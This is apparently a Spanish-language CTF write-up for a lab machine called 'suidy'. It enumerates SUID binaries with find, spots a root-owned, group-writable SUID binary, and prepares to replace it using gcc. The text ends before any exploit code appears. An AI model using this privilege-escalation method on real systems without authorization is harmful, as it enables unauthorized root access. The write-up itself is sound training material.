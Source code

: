 ## Escalate user suidy

Si listamos los permisos `SUID` que tenemos con dicho usuario veremos lo siguiente:

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:

```
136287     20 -rwsrwsr-x   1 root     theuser     16704 sep 26  2020 /home/suidy/suidyyyyy
     3562     64 -rwsr-xr-x   1 root     root        63568 ene 10  2019 /usr/bin/su
     3890     36 -rwsr-xr-x   1 root     root        34888 ene 10  2019 /usr/bin/umount
     3888     52 -rwsr-xr-x   1 root     root        51280 ene 10  2019 /usr/bin/mount
       62     84 -rwsr-xr-x   1 root     root        84016 jul 27  2018 /usr/bin/gpasswd
       59     56 -rwsr-xr-x   1 root     root        54096 jul 27  2018 /usr/bin/chfn
     3415     44 -rwsr-xr-x   1 root     root        44440 jul 27  2018 /usr/bin/newgrp
       63     64 -rwsr-xr-x   1 root     root        63736 jul 27  2018 /usr/bin/passwd
       60     44 -rwsr-xr-x   1 root     root        44528 jul 27  2018 /usr/bin/chsh
    12498     52 -rwsr-xr--   1 root     messagebus    51184 jun  9  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    15846    428 -rwsr-xr-x   1 root     root         436552 ene 31  2020 /usr/lib/openssh/ssh-keysign
   137189     12 -rwsr-xr-x   1 root     root          10232 mar 28  2017 /usr/lib/eject/dmcrypt-get-device
```

Veremos este permiso de aqui bastante interesante:

```
136287  20 -rwsrwsr-x  1 root  theuser  16704 sep 26  2020 /home/suidy/suidyyyyy
```

Vamos a ejecutar el binario a ver que sucede para analizarlo:

```shell
./home/suidy/suidyyyyy
```

Info:

```
suidy@suidy:~$ whoami
suidy
```

Con esto veremos que ya seremos directamente el usuario `suidy` pero si investigamos mucho no vemos nada interesante con dicho usuario, pero si nos fijamos en los permisos del binario veremos lo siguiente:

```
-rwsrwsr-x 1 root theuser 16704 sep 26  2020 /home/suidy/suidyyyyy
```

Vemos que pertenece al grupo de `theuser` y que con dicho usuario podemos modificar el binario a nuestro gusto, vamos a comprobar que tengamos `gcc`:

```shell
gcc --version
```

